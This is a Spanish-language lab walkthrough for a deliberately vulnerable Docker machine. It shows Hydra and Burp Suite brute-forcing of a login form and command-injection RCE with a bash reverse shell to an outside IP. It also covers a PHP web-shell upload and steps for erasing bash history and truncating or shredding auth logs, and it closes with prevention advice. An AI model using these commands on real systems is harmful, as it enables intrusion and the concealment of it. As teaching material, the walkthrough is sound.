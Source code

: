 = Ira
:author: Manuel L. Quero
:toc: left
:doctype: book

== Despliegue de la máquina

Sería conveniente utilizar una distribución Linux, es recomendable usar Kali Linux.

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

Necesitaremos descargar primeramente el auto_deploy.sh, el cual se muestra como una pirámide en la página. Después en un directorio deberemos tener el auto_deploy.sh, ira.tar y docker-compose.yml, deberemos acceder con la terminal a dicho directorio y ejecutar el siguiente comando. 

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh ira.tar
----

== Ataque de Fuerza Bruta

Un ataque de fuerza bruta utiliza el método de prueba y error para adivinar la información de inicio de sesión, las claves de cifrado o encontrar una página web oculta. Los hackers estudian todas las combinaciones posibles con la esperanza de acertar. Aunque todos los ataques de fuerza bruta comparten este principio básico de «prueba y error», existen diferentes tipos de ataques de este tipo, cada uno con su propia metodología y estrategia.

A continuación vamos a ver los tipos de ataques más frecuentes:

=== 1. Ataque de fuerza bruta estándar

Este es el ataque de fuerza bruta en su forma más básica. El atacante intenta todas las combinaciones posibles de contraseñas hasta que se encuentre la correcta. Este método puede ser extremadamente lento y consume muchos recursos, pero también puede ser efectivo si la contraseña es débil, ya que muchas personas siguen usando contraseñas débiles, como "admin123" o "1234,", o practican un mal protocolo de contraseñas, como usar la misma contraseña para varios sitios web. Además, si el atacante realiza un trabajo de reconocimiento mínimo puede descifrar la contraseña potencial de una persona, como el nombre de su equipo deportivo favorito.

=== 2. Ataque de fuerza bruta con diccionario

Un ataque de diccionario es aquel en el que el atacante selecciona un objetivo y luego prueba las posibles contraseñas contra el nombre de usuario de esa persona, usando un software normalmente. Este método es más rápido que un ataque de fuerza bruta estándar, aún así suele llevar mucho tiempo y tiene una baja probabilidad de éxito en comparación con los métodos de ataque más nuevos y efectivos.

=== 3. Ataques de fuerza bruta híbrida 

Un ataque híbrido de fuerza bruta es cuando se combina un método de ataque de diccionario con un simple ataque de fuerza bruta. El atacante comienza con una lista de posibles palabras, luego experimenta con combinaciones de caracteres, letras y números para encontrar la contraseña correcta. Este enfoque permite al atacante descubrir contraseñas que combinan palabras comunes o populares con números, años o caracteres aleatorios, como "SanDiego123" o "Rover2020@".

=== 4. Ataques de fuerza bruta inversa 

Un ataque de fuerza bruta inversa ve a un atacante comenzar el proceso con una contraseña conocida, que generalmente se descubre a través de una violación de la red. Utilizan esa contraseña para buscar una credencial de inicio de sesión coincidente utilizando listas de millones de nombres de usuario. Los atacantes también pueden usar una contraseña débil de uso común, como "Contraseña123#", para buscar una coincidencia en una base de datos de nombres de usuario.

== RCE (Remote Code Execution)

La Ejecución Remota de Código (RCE) es una vulnerabilidad crítica que permite a un atacante ejecutar comandos o código arbitrario en un sistema remoto, normalmente con los permisos del proceso vulnerable. Esta falla puede surgir por errores de programación, configuraciones inseguras o el uso inadecuado de funciones que interactúan con el sistema operativo.

El impacto de un RCE puede ser devastador, ya que en muchos casos permite al atacante tomar el control completo del sistema, acceder a datos sensibles o incluso pivotar a otros sistemas de la red.

Existen múltiples técnicas para explotar esta vulnerabilidad. En nuestro caso, nos centraremos en dos formas comunes de RCE:

=== 1. RCE directo mediante inyección de comandos.

Las aplicaciones web mal configuradas o que no sanitizan correctamente las entradas del usuario pueden ser vulnerables a la inyección de comandos. Por ejemplo, si una aplicación pasa parámetros directamente a la línea de comandos sin validación adecuada.

=== 2. RCE mediante subida de archivos maliciosos.

Este ataque se da cuando una aplicación permite subir archivos, pero no controla adecuadamente el tipo, contenido o extensión del archivo. Si el servidor guarda ese archivo en un lugar accesible públicamente y permite su ejecución, el atacante puede subir un script malicioso (por ejemplo, PHP) y ejecutarlo remotamente.

== Solucionar la máquina

En esta guía vamos a ver, cómo realizar diferentes ataques de fuerza bruta, para después adentrarnos en ataques RCE. Aprenderemos distintas herramientas como hydra o burpsuite, entre otras.

Herramientas:

* https://portswigger.net/burp/communitydownload[Burpsuite]
* https://www.kali.org/tools/hydra/[Hydra]
* https://www.kali.org/tools/netcat/[Netcat]

=== Ataque de Fuerza Bruta

==== Conceptos Básicos

El Intruder de Burpsuite tiene cuatro modos de operar, nosotros utilizaremos dos de ellos, pero me gustaría explicarlos para que quede claro que hace cada uno.

. *Sniper* -> Este modo prueba una lista de payloads en cada posición de forma individual, manteniendo las demás constantes. Es útil para detectar vulnerabilidades como inyecciones SQL o XSS en parámetros específicos. Por ejemplo, si tienes tres parámetros y una lista de 100 payloads, se realizarán 300 solicitudes (100 por cada parámetro).

. *Battering Ram* -> En este se aplica el mismo payload en todas las posiciones marcadas simultáneamente. Sirve para cuando el mismo valor debe estar presente en múltiples campos, como un token que aparece en varios lugares. Por ejemplo, si marcas dos posiciones y tienes una lista de 50 payloads, se realizarán 50 solicitudes, cada una con el mismo payload en ambas posiciones.​

. *Pitchfork* -> Este utiliza diferentes listas de payloads para cada posición, insertando los payloads correspondientes en paralelo. Se utiliza cuando se necesita probar combinaciones específicas de valores relacionados, como pares de usuario y contraseña correspondientes. Por ejemplo, si tienes dos listas de 100 elementos cada una, se realizarán 100 solicitudes, combinando el primer elemento de cada lista, luego el segundo, y así sucesivamente.

. *Cluster Bomb* -> Genera todas las combinaciones posibles entre múltiples listas de payloads, prueba cada combinación en las posiciones correspondientes. Es ideal para ataques de fuerza bruta donde se desconoce la relación entre los valores, como probar todas las combinaciones posibles de usuarios y contraseñas. Por ejemplo, si tienes una lista de 100 usuarios y otra de 100 contraseñas, se realizarán 10,000 solicitudes (100 x 100).

==== 1. Ataque de fuerza bruta estándar

Este, al ser un ataque por repetición en el que no se utiliza ningún tipo de software, prefiero dar recomendaciones en caso que queramos probar a realizarlo, ya que es muy tedioso y poco eficiente. Por ello, vamos a ver los usuarios y contraseñas más usados en un panel de login, además de algunas nociones básicas para encontrar información.

.Usuarios más usados
[%collapsible]
====
[source,text]
----
root
admin
test
guest
info
adm
mysql
user
administrator
oracle
ftp
pi
puppet
ansible
ec2-user
vagrant
azureuser
----
====

.Contraseñas más usadas
[%collapsible]
====
[source,text]
----
123456
123456789
12345678
password
qwerty123
qwerty1
111111
12345
secret
123123
1234567890
1234567
000000
qwerty
abc123
password1
iloveyou
11111111
dragon
monkey 
----
====

Hay ocasiones en las que no sabremos la identidad del usuario, pero podriamos hacernos a la idea si hacemos un ataque de OSINT a la víctima, conociendo: 

* *RRSS*

** Examinar perfiles públicos en plataformas como Facebook, LinkedIn, Twitter e Instagram para obtener nombres, fechas de nacimiento, intereses y otros datos personales que puedan estar relacionados con contraseñas. Identificar nombres de mascotas, equipos deportivos favoritos, fechas significativas, etc.

* *Búsqueda en Motores de Búsqueda*

** Utilizar operadores avanzados de búsqueda en Google para encontrar información relacionada con la víctima, como correos electrónicos, nombres de usuario y publicaciones en foros. Ejemplo: _site:linkedin.com/in/ "víctima"_

* *Revisión de Brechas de Seguridad*

** Consultar bases de datos de filtraciones de datos para verificar si la información de la víctima ha sido comprometida anteriormente. Existen herramientas como https://haveibeenpwned.com/[Have I Been Pwned] que pueden ser útiles.

* *Análisis de Metadatos*

** Descargar y analizar documentos públicos (PDFs, imágenes, etc.) asociados a la víctima para extraer metadatos que puedan revelar nombres de usuario, software utilizado, fechas y más. Para ello recomiendo herramientas como https://github.com/ElevenPaths/FOCA[FOCA].

* *Observación de Patrones de Contraseñas*

** Basándose en la información recopilada, inferir posibles patrones de contraseñas que la víctima podría utilizar, como combinaciones de nombres y fechas (ejemplo: Juan1990).

También recomiendo usar unas cuantas herramientas además de las anteriores:

https://www.kali.org/tools/theharvester/[TheHarvester] -> Recopila correos electrónicos, subdominios y nombres de usuario asociados a un dominio específico.

https://www.kali.org/tools/maltego/[Maltego] -> Permite visualizar relaciones entre personas, correos electrónicos, dominios y más mediante gráficos.

https://www.kali.org/tools/spiderfoot/[SpiderFoot] -> Automatiza la recopilación de información sobre una entidad específica, incluyendo direcciones IP, nombres de usuario y más.

https://www.kali.org/tools/sherlock/[Sherlock] -> Sirve para localizar el nombre de usario en distintas plataformas.

https://osintframework.com/[OSINT Framework] -> Un conjunto de herramientas categorizadas para facilitar la investigación OSINT.

https://www.kali.org/tools/recon-ng/[Recon-ng] -> Framework de reconocimiento web que ofrece módulos para recopilar información sobre objetivos.

==== 2. Ataque de fuerza bruta con diccionario

En este ataque, aunque ya fue visto en la anterior máquina, lo vimos a través de wpscan. En cambio en esta lo veremos con hydra y burpsuite.

Kali viene con varios diccionarios preinstalados en la ruta /usr/share/wordlist. A mi en especial me gusta mucho el de https://github.com/danielmiessler/SecLists[Seclists], ya que es muy completo. Pero hay que saber usar diccionarios, ya que si usamos primeramente unos muy fuertes nos va a tardar mucho, ya que la desventaja principal de los ataques de fuerza bruta es que usan muchos recursos del ordenador donde se ejecuta y dependiendo de eso, tardará más o menos.

===== Hydra

Cómo no conocemos ni el usuario ni la contraseña, tendremos que usar diccionarios en ambos campos. Pero antes de esto deberemos hacer un estudio de la página, para saber si usa POST o GET, y ver los IDs de los campos:

Si le damos al F12 podremos inspeccionar la estructura de la página, viendo que en los campos del usuario y contraseña, sus IDs son *user* y *pass*.

image::assets/Fuerza Bruta/Diccionario/IDs.png[ID,align=center]

Si le damos a Network y enviamos unas credenciales erroneas, veremos que se envían mediante *POST*, además de poder ver la url que será importante para el siguiente comando. Además de conocer el mensaje de error que nos devuelve para poder filtrar, en este caso *"Credenciales incorrectas."*.

image::assets/Fuerza Bruta/Diccionario/POST.png[POST,align=center]

Nuestro comando en hydra es:

[source, bash]
----
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/2024-197_most_used_passwords.txt 172.34.0.2 http-post-form "/index.php:user=^USER^&pass=^PASS^:Credenciales incorrectas."
----

* *-L* -> Lista de usuarios
* *-P* -> Lista de contraseñas
* *172.34.0.2* -> Ataca el host objetivo
* *http-post-form* -> Define el método del formulario
* *"/index.php:user=^USER^&pass=^PASS^:Credenciales incorrectas."*
** _la ruta del login_
** _los parámetros POST_
** _el mensaje que indica un fallo de login_

image::assets/Fuerza Bruta/Diccionario/Ataque.png[Ataque,align=center]

Probamos las credenciales que ha encontrado.

image::assets/Fuerza Bruta/Diccionario/Cred.png[Credenciales,align=center]

image::assets/Fuerza Bruta/Diccionario/Entrar.png[Pasar login,align=center]

De esta forma, podremos acceder mediante el uso de diccionarios, pero en este caso las credenciales eran sencillas, en peores casos tendremos que esperar horas, aunque depende del hardware del ordenador donde se ejecute.

===== Burpsuite

Primeramente recomiendo instalar FoxyProxy en nuestro navegador. Cuando estemos dentro de este, deberemos irnos a Proxies y crear uno nuevo dándole a Add. Deberemos poner la siguiente configuración, para interceptar con Burpsuite en local desde el puerto 8081. Además deberemos añadir en la parte de patrones el que aparece en la siguiente imagen:

image::assets/Fuerza Bruta/Diccionario/Burp/FoxyProxy.png[FoxyProxy Config,align=center]

Nos vamos a nuestra página donde le daremos al logo de FoxyProxy si lo hemos puesto en la barra de herramientas y le damos al proxy que hemos creado.

image::assets/Fuerza Bruta/Diccionario/Burp/FoxyProxy2.png[FoxyProxy Navegador,align=center]

Ahora abrimos Burpsuite y creamos un proyecto temporal, ya que tendremos la versión de la comunidad, iniciándolo por defecto. Cuando esté abierto, nos vamos a la configuración del proxy donde pondremos la IP y puerto que hemos configurado en FoxyProxy. 

image::assets/Fuerza Bruta/Diccionario/Burp/Burp1.png[Burpsuite,align=center]

En Burpsuite, en la parte de Proxy, le damos a *Intercept off* para pasarlo a *on* y comenzar a capturar el tráfico. Y en nuestra página ponemos cualquier credenciales y le damos a entrar, enviándonos a Burpsuite directamente.

image::assets/Fuerza Bruta/Diccionario/Burp/Burp2.png[Burpsuite2,align=center]

image::assets/Fuerza Bruta/Diccionario/Burp/LoginBurp.png[Enviar petición,align=center]

En Burpsuite, nos aparecerá la petición POST que hemos capturado, donde podremos ver los IDs de los campos, por lo que para atacar desde Burpsuite, deberemos pasar esta petición al intruder, le damos clic derecho sobre la petición y la enviamo a este:

image::assets/Fuerza Bruta/Diccionario/Burp/Burp3.png[Burpsuite2,align=center]

image::assets/Fuerza Bruta/Diccionario/Burp/Intruder1.png[Intruder1,align=center]

Una vez en el Intruder, deberemos darle al desplegable de arriba y cambiarlo a *Cluster bomb attack*, ya que sirve para ataques que combinan usuarios y contraseñas. Después en los IDs que están en la parte inferior, borraremos el usuario y contraseña que hemos puesto antes en el login, y después de cada símbolo de igual le daremos a *Add §*.

image::assets/Fuerza Bruta/Diccionario/Burp/Intruder2.png[Intruder2,align=center]

A la derecha nos pedirá igresar un payload, es decir, los diccionarios y deberemos poner el correspondiente payload en la posición correcta. En el 1 va el de los usuario y le pongo el diccionario de nombres de usuario frecuentes y en el 2 va la contraseña y por ello le pongo el diccionario de contraseñas sencillas.

image::assets/Fuerza Bruta/Diccionario/Burp/Intruder3.png[Intruder3,align=center]

image::assets/Fuerza Bruta/Diccionario/Burp/Intruder4.png[Intruder4,align=center]

Además en la configuración del Intruder deberemos cambiar dos cosas:

* *Redirections* -> Deberemos poner Always para aceptar las redirecciones.

image::assets/Fuerza Bruta/Diccionario/Burp/IntruderRedirections.png[Ajuste Redirecciones,align=center]

* *Grep - Extract* -> Como hemos hecho antes en el caso de Hydra, deberemos indicarle el mensaje de error. Principalmente se usa para delimitar cuando empieza y cuando acaba el ataque. Por desgracia, no nos aparecerá con nuestra página. Por lo que deberemos estar atentos al cambio de longitud.

Una vez dicho esto le damos al botón naranja para iniciar el ataque, empezará a probar tanto usuarios como contraseñas hasta que dé con el correcto, podemos ver el proceso y cuando cambie la longitud, la primera significa que ha entrado con esas, ya que hemos puesto que acepte redirecciones.

image::assets/Fuerza Bruta/Diccionario/Burp/Entrar.png[Pasar el login,align=center]

Cuando quitemos la interceptación del proxy, podremos ver cómo hemos entrado:

image::assets/Fuerza Bruta/Diccionario/Burp/Entrar2.png[Pasar el login2,align=center]

==== 3. Ataques de fuerza bruta híbrida

===== Hydra

Vamos a crear un diccionario solo con las palabras más comunes y usando *crunch*, de esta forma crearemos un diccionario híbrido más dedicado.

Tabla de caracteres especiales de crunch:

[cols="1,1"]
|===
|Símbolo|Significado

|@
|Minúsculas (a-z)

|,
|Mayúsculas (A-Z)

|%
|Números (0-9)

|^
|Símbolos (!@$%, etc.)
|===

Por lo que realizamos los siguientes comandos, obteniendo un diccionario personal al que le podemos añadir entradas en caso de encontrar información más relevante.

[source,bash]
----
$ crunch 8 8 admin%%% >> diccionario.txt
$ crunch 9 9 qwerty%%% >> diccionario.txt
$ crunch 7 7 @@@@123 >> diccionario.txt
$ crunch 7 7 user^^^ >> diccionario.txt
----

En este ataque vamos a atacar directamente a la cuenta *admin* con hydra. De esta forma veremos el uso del parametro -l y como actuar en caso de conocer al usuario.

[source,bash]
----
hydra -l admin -P diccionario.txt 172.34.0.2 http-post-form "/index.php:user=^USER^&pass=^PASS^:Credenciales incorrectas."
----

* *-l* -> En este parámetro ponemos el nombre del usuario.

image::assets/Fuerza Bruta/Hibrido/Hydra/Ataque.png[Ataque,align=center]

===== Burpsuite

En este caso, realizaremos lo ya visto anteriormente hasta la parte del Intruder. En este caso, vamos a usar el Sniper attack, donde se usa en una posicion, un objetivo. Deberemos añadir los símbolos en la parte de la contraseña.

image::assets/Fuerza Bruta/Hibrido/Burp/Intruder1.png[Intruder1,align=center]

En este caso vamos a poner unas cuantas palabras en la parte de payload, añadiendo una por una, y luego añadiremos a cada una distintos sufijos.

image::assets/Fuerza Bruta/Hibrido/Burp/Intruder2.png[Intruder2,align=center]

En la parte de Payload processing, añadiremos los sufijos, para ello le daremos a añadir, en la pestaña buscamos "Add sufix" y ponemos el que queramos, además podemos ponerles incluso prefijos para hacerlo más completo. Pero deberemos activarlos según queramos, ya que si todos están activos se acumulan y eso no lo queremos, por lo que voy a ir uno por uno.

image::assets/Fuerza Bruta/Hibrido/Burp/Intruder3.png[Intruder3,align=center]

image::assets/Fuerza Bruta/Hibrido/Burp/Intruder4.png[Intruder4,align=center]

Al final nos debe quedar algo así:

image::assets/Fuerza Bruta/Hibrido/Burp/Intruder5.png[Intruder5,align=center]

También es importante recordar que en la configuración hay que cambiar lo de las redirecciones a siempre. Dicho esto, vamos a probar el ataque:

Si probamos con el primer sufijo, ninguno es correcto, por lo que queda descartado. De esta forma deberemos probarlo con cada uno.

image::assets/Fuerza Bruta/Hibrido/Burp/Ataque1.png[Ataque1,align=center]

image::assets/Fuerza Bruta/Hibrido/Burp/Ataque2.png[Ataque2,align=center]

Podemos observar que con el último sufijo que hemos introducido es correcto, ya que a variado la longitud. Y cuando quitemos el proxy ya estermos dentro.

==== 4. Ataques de fuerza bruta inversa

===== Hydra

En este caso, deberemos usar una contraseña que ya sabemos que alguien utiliza, en nuestro caso va a ser *qwerty123*, pero no conocemos al usuario por lo que podemos usar algún diccionario de los anteriores mencionados o crear uno con los usuarios más utilizados.

[source,bash]
----
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -p qwerty123 172.34.0.2 http-post-form "/index.php:user=^USER^&pass=^PASS^:Credenciales incorrectas."
----

* *-p* -> En este parámetro ponemos la contraseña que creamos correcta.

image::assets/Fuerza Bruta/Inverso/Hydra/Ataque.png[Ataque,align=center]

===== Burpsuite

Como ya hemos visto antes, deberemos hacer lo mismo hasta el punto del Intruder, donde añadiremos los símbolos en el usuario y meteremos un payload para adivinarlo.

image::assets/Fuerza Bruta/Inverso/Burp/Intruder.png[Intruder,align=center]

image::assets/Fuerza Bruta/Inverso/Burp/Ataque.png[Ataque,align=center]

Como podemos observar el usuario correcto es *admin*.

=== RCE

Una vez dentro, gracias a los ataques de fuerza bruta, en el panel de administrador se puede acceder a una linea de comandos para administrar desde la web, y también se puede acceder a una página para subir archivos y poder verlos mediante un enlace. A continuación vamos a ver estos dos tipos de ataque RCE:

==== 1. RCE directo mediante inyección de comandos.

Teniendo a nuestra disposición una terminal, vamos a recolectar información para luego hacer una reverse shell y poder efectuar comando con mayor tranquilidad.

image::assets/RCE/CMD/Página.png[Página,align=center]

===== Conocer estructura de archivos

* *ls -la* -> Con este comando podemos ver todos los archivos del directorio actual, conociendo sus permisos, usuario y grupo.

image::assets/RCE/CMD/LS.png[comando ls,align=center]

* *pwd* -> Podemos saber en qué directorio estamos

image::assets/RCE/CMD/PWD.png[comando pwd,align=center]

===== Usuarios

* *whoami* -> Podemos conocer que usuario somos. Podemos ver que somos root, por lo que podemos hacer de todo.

image::assets/RCE/CMD/whoami.png[comando whoami,align=center]

* *id* -> Podemos ver los permisos que tiene nuestro usuario. 

image::assets/RCE/CMD/id.png[comando id,align=center]

* *cat /etc/passwd* -> En este archivo se encuentran los usuarios que existen en el sistema

image::assets/RCE/CMD/passwd.png[archivo passwd,align=center]

===== Sistema Operativo

* *uname -a* -> Nos dice el sistema operativo en el que se encuentra. Cómo está en un docker dentro de un Kali, podemos ver lo siguiente.

image::assets/RCE/CMD/uname.png[comando uname,align=center]

===== Reverse Shell

Al ser root, podemos hacer todo lo que queramos, cómo si queremos borrar todo el sistema, pero también podemos mantenernos persistentes en él o acceder para tener una terminal más comoda. Hay miles de cosas que podemos hacer en está situación, por lo que vamos a ver cómo realizar una reverse shell desde la web.

Abrimos una terminal con netcat y nos ponemos a la escucha:

image::assets/RCE/CMD/NetCat1.png[NetCat 1,align=center]

En la web ponemos el siguiente comando:

[source,bash]
----
bash -c 'bash -i >& /dev/tcp/192.168.1.20/4444 0>&1'
----

image::assets/RCE/CMD/NetCat2.png[NetCat 2,align=center]

Una vez hecho esto ya estaremos conectados con netcat como root:

image::assets/RCE/CMD/NetCat3.png[NetCat 3,align=center]

Ya que somos root, y estamos con infltrados en el sistema, he pensado que estaría bien tener en cuenta algunas prácticas para limpiar nuestro rastro:

* *1. Crear directorios ocultos*

[source,bash]
----
$ mkdir /dev/shm/.secreto
$ ls -la /dev/shm/
----

Para eliminar el directorio después de usarlo:

[source,bash]
----
$ rmdir /dev/shm/.secreto
----

* *2. Borrar historial de Bash*

Podemos ver el historial actual con history.

** Eliminar la variable de entorno HISTFILE:

[source,bash]
----
$ unset HISTFILE
----

** O redirigir el historial a /dev/null:

[source,bash]
----
$ HISTFILE=/dev/null
$ export HISTFILE=/dev/null
----

** Configurar para no guardar el historial
[source,bash]
----
$ HISTSIZE=0
$ HISTFILESIZE=0
----

** Eliminar el historial con:
[source,bash]
----
$ history -c
$ cat /dev/null > ~/.bash_history && history -c && exit
----

* *3. Limpiar archivos de registro*

Para evitar dejar rastros en los registros del sistema, podemos truncarlos en lugar de eliminarlos de esta forma no levantaremos sospechas:

[source,bash]
----
$ truncate -s 0 /var/log/auth.log
$ echo '' > /var/log/auth.log
$ cat /dev/null > /var/log/auth.log
----

También podemos usar shred para sobrescribir el archivo:

[source,bash]
----
$ shred -zu /var/log/auth.log
----

* *4. Uso de herramientas*

https://github.com/sundowndev/covermyass[Covermyass] es un script automatizado para borrar huellas, limpiar archivos de registro y desactivar el historial:

[source,bash]
----
$ curl -sSL https://github.com/sundowndev/covermyass/releases/latest/download/covermyass_linux_amd64 -o ./covermyass
$ chmod +x ./covermyass
$ ./covermyass
----

Con opciones para borrar registros y desactivar el historial de Bash y autenticación.

==== 2. RCE mediante subida de archivos maliciosos.

Ahora nos iremos a la parte de subir archivos, donde primeramente provaremos a subir uno de ejemplo:

image::assets/RCE/archivos/Página.png[Página,align=center]

Voy a subir un archivo pdf para comprobar si se pueden ejecutar los archivos:

image::assets/RCE/archivos/PDF1.png[PDF1,align=center]

image::assets/RCE/archivos/PDF2.png[PDF2,align=center]

image::assets/RCE/archivos/PDF3.png[PDF3,align=center]

Como podemos observar, podemos abrir estos archivos, por lo que vamos a realizar una web shell con permisos de root:

image::assets/RCE/archivos/WebShell.png[WebShell,align=center]

De esta forma, a través de este archivo podremos ejecutar comandos como administrador, deremos usar lo siguiente en la url del archivo "?cmd=(comando)", así enviamos el comando para que el GET lo obtenga y lo pase.

image::assets/RCE/archivos/WebShell2.png[WebShell2,align=center]

image::assets/RCE/archivos/WebShell3.png[WebShell3,align=center]

Y ya podemos hacer lo que queramos como root.

==== Aclaración

En este último hemos sido root todo el rato, pero eso casi nunca es así, por lo que en el siguiente pecado aprenderemos a escalar privilegios mediante capabilities u otras formas.

== ¿Cómo prevenir?

=== Fuerza Bruta

==== 1. Usar contraseñas seguras

Como hemos visto, las credenciales se han obtenido fácilmente debido a su baja seguridad. Por ello, se recomienda evitar contraseñas predecibles como nombres propios, fechas de nacimiento o palabras comunes. Además, es buena práctica cambiarlas periódicamente para reducir riesgos en caso de filtración.

==== 2. Implementar autenticación multifactor (MFA)

La autenticación multifactor añade una capa adicional de seguridad al requerir, además de la contraseña, una segunda forma de verificación, como un código enviado al teléfono móvil o generado por una aplicación. Esto dificulta el acceso incluso si la contraseña ha sido comprometida.

==== 3. Limitar los intentos de inicio de sesión

Limitar el número de intentos de inicio de sesión es una medida eficaz contra los ataques de fuerza bruta. Estos ataques prueban múltiples combinaciones de credenciales en poco tiempo, por lo que establecer un límite de intentos y bloquear temporalmente la cuenta tras varios fallos puede detenerlos de forma efectiva.

==== 4. Usar sistemas de detección (IDS) y prevención (IPS) de intrusiones

Los IDS e IPS son herramientas clave para detectar y bloquear comportamientos sospechosos, como múltiples intentos de acceso fallidos. Un IDS actúa como sistema pasivo, alertando sobre actividades anómalas, mientras que un IPS puede intervenir activamente para bloquear el tráfico malicioso.

Ejemplos:

* Snort
* Suricata

==== 5. Implementar restricciones por IP

Restringir el acceso a servicios críticos mediante filtros por dirección IP o ubicación geográfica ayuda a reducir la superficie de ataque. De este modo, solo se permite el acceso desde ubicaciones de confianza.

==== 6. Usar CAPTCHAs

Los CAPTCHA son pruebas diseñadas para diferenciar a humanos de bots. Al pedir al usuario que resuelva tareas simples como identificar imágenes o escribir un texto distorsionado, se evita que scripts automatizados abusen de formularios o sistemas de autenticación.

==== 7. Aplicar limitación de velocidad (Rate Limiting)

Este mecanismo restringe el número de solicitudes permitidas desde una IP o usuario en un intervalo de tiempo. Al aplicarlo, se reduce la eficacia de los ataques automatizados, ya que impide probar grandes volúmenes de credenciales rápidamente.

==== 8. Utilizar un cortafuegos de aplicaciones web (WAF)

El WAF protege las aplicaciones web examinando el tráfico entrante. Detecta y bloquea patrones sospechosos antes de que lleguen a la aplicación, como intentos masivos de inicio de sesión o inyecciones maliciosas.

=== RCE

==== 1. Validación y Sanitización de Entradas

